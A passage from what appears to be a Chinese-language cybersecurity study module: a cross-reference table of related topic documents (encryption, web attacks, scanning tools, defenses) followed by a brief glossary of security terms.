| 密码学应用 | 008-CryptographyApplication | 本文的并列主题 |
| Web安全深度 | 009-WebSecurityDeep | 本文的安全延伸 |
| 安全运营中心 | 010-SOC | 本文的安全延伸 |
| SSRF攻击 | 011-SSRFAttack | 本文的并列主题 |
| 恶意代码分析 | 012-MalwareAnalysis | 本文的并列主题 |
| 云安全 | 013-CloudSecurity | 本文的安全延伸 |
| 对称加密 | 014-SymmetricEncryption | 本文的安全延伸 |
| 应急响应 | 015-IncidentResponse | 本文的并列主题 |
| 非对称加密 | 016-AsymmetricEncryption | 本文的安全延伸 |
| 哈希算法 | 017-HashAlgorithm | 本文的并列主题 |
| 安全开发 | 018-SecureDevelopment | 本文的安全延伸 |
| 合规与审计 | 019-ComplianceAudit | 本文的并列主题 |
| 数字证书 | 020-DigitalCertificate | 本文的并列主题 |
| HTTPS原理 | 021-HTTPSPrinciple | 本文的原理深化 |
| 渗透测试方法论 | 022-PenetrationTestingMethodology | 本文的并列主题 |
| 信息收集 | 023-InformationGathering | 本文的并列主题 |
| 漏洞扫描 | 024-VulnerabilityScan | 本文的并列主题 |
| 安全编码原则 | 025-SecureCodingPrinciples | 本文的安全延伸 |
| 输入验证 | 026-InputValidation | 本文的并列主题 |
| 认证与授权 | 027-AuthenticationAuthorization | 本文的并列主题 |
| OWASP-Top-10详解 | 028-OWASPTop10Detailed | 本文的并列主题 |
| XXE攻击 | 029-XXEAttack | 本文的并列主题 |
| 反序列化漏洞 | 030-DeserializationVulnerability | 本文的并列主题 |
| 零信任架构 | 031-ZeroTrustArchitecture | 本文的原理深化 |
| 身份与访问管理 | 032-IdentityAccessManagement | 本文的并列主题 |
| 安全基线 | 033-SecurityBaseline | 本文的安全延伸 |
| 漏洞扫描工具 | 034-VulnerabilityScanTools | 本文的并列主题 |
| WAF规则 | 035-WAFRule | 本文的并列主题 |
| Cybersecurity OpenSSL 证书管理 | 036-OpenSSLCert | 本文的并列主题 |
| Cybersecurity OpenSSL 加密解密 | 037-OpenSSLEncrypt | 本文的安全延伸 |
| Cybersecurity nmap 端口扫描 | 038-NmapScan | 本文的并列主题 |
| Cybersecurity 哈希工具 | 039-HashTools | 本文的并列主题 |
| Cybersecurity hashcat 密码破解 | 040-Hashcat | 本文的并列主题 |
| Cybersecurity GPG 加密与签名 | 041-GPGEncrypt | 本文的安全延伸 |
| Cybersecurity SSH 密钥管理 | 042-SSHKeys | 本文的并列主题 |
| Cybersecurity 密码哈希 | 043-PasswordHash | 本文的并列主题 |
| Cybersecurity SQL 注入检测与防御 | 044-SQLInjection | 本文的并列主题 |
| Cybersecurity XSS 防御 | 045-XSSDefense | 本文的并列主题 |
| Cybersecurity CSRF 防御命令与配置 | 046-CSRFDefense | 本文的并列主题 |
| Cybersecurity XXE 防御与检测 | 047-XXEDefense | 本文的并列主题 |
| Cybersecurity 命令注入防御与检测 | 048-CommandInjection | 本文的并列主题 |
| Cybersecurity OAuth2/OIDC 配置命令 | 049-OAuth2OIDC | 本文的并列主题 |
| Cybersecurity 防火墙配置(ufw/firewalld) | 050-FirewallConfig | 本文的并列主题 |
| Cybersecurity IDS/IPS 命令(Suricata/Snort) | 051-IDSIPSCommands | 本文的并列主题 |
| Cybersecurity Metasploit 命令(渗透测试) | 052-MetasploitCommands | 本文的并列主题 |
| Cybersecurity Burp Suite 命令行 | 053-BurpSuiteCLI | 本文的并列主题 |
| Cybersecurity Nikto Web 扫描 | 054-NiktoScan | 本文的并列主题 |
| Cybersecurity OpenVAS 漏洞扫描 | 055-OpenVASCommands | 本文的并列主题 |
| Cybersecurity SELinux/AppArmor 强制访问控制 | 056-SELinuxAppArmor | 本文的并列主题 |
| Cybersecurity AIDE 文件完整性检查 | 057-AIDEFileIntegrity | 本文的并列主题 |
| Cybersecurity auditd 审计命令 | 058-AuditdCommands | 本文的并列主题 |
| Cybersecurity 隐写术工具命令 | 059-SteganographyTools | 本文的并列主题 |
| Cybersecurity 逆向工程命令(radare2/ghidra CLI) | 060-ReverseEngineering | 本文的并列主题 |

速查表的作用是让读者快速判断：哪些文档应在阅读本文前掌握（前置基础），哪些文档应在阅读本文后继续（延伸主题）。本模块的交叉引用体系即以此表为基础。

## 15. 术语表

下表整理《二进制安全与应急响应》及 网络安全 模块中出现的高频术语，给出简明释义。术语按字母序或逻辑序排列，供查阅。

| 术语 | 释义 |
| --- | --- |
| 密码学基础 | 对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。 |
| 认证与授权 | 口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。 |
| Web 攻击面 | 注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。 |
| 渗透测试流程 | 信息收集 -> 漏洞扫描 -> 利用 -> 提权 -> 横向 -> 报告；工具（Nmap、Burp、Metasploit）。 |
| 弱口令（易错点） | 参见常见陷阱章节的详细讲解 |
| SQL 注入（易错点） | 参见常见陷阱章节的详细讲解 |
| XSS 未过滤（易错点） | 参见常见陷阱章节的详细讲解 |
| 敏感信息泄露（易错点） | 参见常见陷阱章节的详细讲解 |
| 依赖漏洞（易错点） | 参见常见陷阱章节的详细讲解 |
| 权限过度（易错点） | 参见常见陷阱章节的详细讲解 |

术语表与正文配合使用：先通读正文，遇到模糊术语回查本表；长期使用后术语会自然进入工作记忆。
